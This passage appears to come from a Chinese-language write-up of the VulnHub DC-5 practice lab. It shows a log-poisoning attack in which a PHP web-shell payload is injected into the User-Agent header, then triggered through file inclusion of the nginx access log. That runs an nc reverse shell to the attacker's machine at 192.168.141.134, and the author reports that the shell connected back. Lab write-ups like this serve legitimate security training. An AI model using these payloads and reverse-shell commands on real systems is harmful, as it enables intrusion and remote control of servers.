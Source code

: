 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/9.png)

访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php system($_GET['cmd']) ?>`

kali 开启 nc 监听
```bash
nc -nlvp 4444
```

访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.141.134 4444 -e /bin/bash` 测试

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/10.png)

弹回来了

---